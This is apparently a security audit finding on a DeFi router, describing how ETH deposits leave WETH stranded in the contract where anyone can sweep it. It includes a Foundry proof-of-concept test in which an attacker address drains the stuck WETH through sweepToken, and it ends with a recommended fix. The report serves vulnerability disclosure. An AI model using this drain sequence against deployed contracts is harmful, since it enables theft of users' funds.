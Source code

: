Long Satin Sealion

high

# Double spending issue in LMPRouter
## Summary

The LMPRouter deposit/mint functions can be used with **msg.value** as they are payable. **The _processEthIn function** is called. However, **it stucks WETH in the router**, **not sending it to the LMP vault**. After that, any user **can steal that WETH from the router.**

## Vulnerability Detail

The vulnerability can lead to a double spending issue since the front end or the user will probably approve the router from spending his WETH. 

1. The user will send to his deposit function an optimal ETH amount to deposit to LMPVault. The router promises to wrap ETH and send it to the LMPVault.
2. However, the LMPRouter calls **weth.deposit** in the context of the contract and not in the context of a user, so the WETH is sent to the router. But as the user approved the router from pulling his WETH, the router called pullToken.
3. In this sense, WETH from a user’s balance is sent to the LMPVault, and proper shares are minted to the user. But all ETH that the user sends along with his deposit gets to the router.
4. This WETH located in the router could be stolen by the attacker as he can call the sweepToken() function.

*Notes: pullToken and sweepToken functions are available in PeripheryPayments.sol*

In the current design, the router could work correctly if pullToken() is not presented when a function is called with ETH.

Poc below can be added to LMPVaultRouter.t.sol
### POC
```Solidity
function test_double_spending() public {
        //@audit-issue issue test for Stucking ETH in contract and anyone can withdraw it
        address attacker = makeAddr("attacker");
        uint256 amount = depositAmount;
        uint256 etherAmount = 1 ether;
        uint256 baseAssetBefore = baseAsset.balanceOf(address(this));
        uint256 sharesBefore = lmpVault.balanceOf(address(this));

        baseAsset.approve(address(lmpVaultRouter), amount); // Frontend leads user to approve or he approved router from some old times
        uint256 sharesReceived = lmpVaultRouter.deposit{ value: etherAmount }(lmpVault, address(this), amount, 1);

        assertGt(sharesReceived, 0);
        assertEq(baseAsset.balanceOf(address(this)), baseAssetBefore - amount);
        assertEq(lmpVault.balanceOf(address(this)), sharesBefore + sharesReceived);
        assertEq(baseAsset.balanceOf(address(lmpVaultRouter)), etherAmount); // whole msg.value got stuck in Router, attacker can claim it

        vm.startPrank(attacker);
        lmpVaultRouter.sweepToken(baseAsset, etherAmount, attacker);
        assert(baseAsset.balanceOf(attacker) == etherAmount);
    }

```

## Impact
Loss of user’s funds. The router does not behave as it should when processing deposit/mint functions with ETH. 

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L120

- Deposit is not handled differently when the ETH is sent.
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44C1-L57C6

## Tool used

Manual Review

## Recommendation
The weth.deposit should be called in the context of a user (use function delegate call), or if ETH is sent, process deposit/mint differently. Do not pull tokens from the user.
